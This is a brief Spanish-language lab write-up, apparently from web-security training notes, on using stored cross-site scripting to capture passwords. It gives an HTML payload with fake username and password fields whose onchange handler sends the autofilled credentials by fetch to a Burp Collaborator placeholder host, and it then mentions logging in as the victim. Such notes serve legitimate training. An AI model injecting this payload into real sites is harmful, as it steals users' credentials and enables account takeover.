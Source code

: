 # Exploiting cross-site scripting to capture passwords

Hoy en dia muchos usuarios usan gestores de contraseñas. Es posible tomar ventaja de esto creando un input de contraseñas y leyendo sus contraseñas auto escritas.

Similar al lab anterior abrimos el collaborator y colocamos su payload en el siguiente script:

```text
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Ahi le enviaremos al colaborator lo que escriba el gestor de contraseñas de la victima de forma automatica

![](../../../.gitbook/assets/imagen%20%28942%29.png)

Luego con eso podemos hacer log in.



